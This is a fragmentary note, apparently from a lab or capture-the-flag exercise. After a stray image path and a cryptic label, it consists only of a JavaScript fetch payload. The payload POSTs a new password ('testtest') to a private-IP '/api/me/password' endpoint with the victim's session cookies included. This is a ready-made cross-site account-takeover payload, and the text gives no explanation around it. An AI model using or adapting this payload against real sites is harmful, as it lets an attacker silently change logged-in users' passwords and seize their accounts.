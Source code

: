 Fetch -> sql website with rabbit

fetch("https://192.168.62.62:8443/api/me/password", {
  method: "POST",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8"
  },
  body: "password=testtest",
  credentials: "include"
});
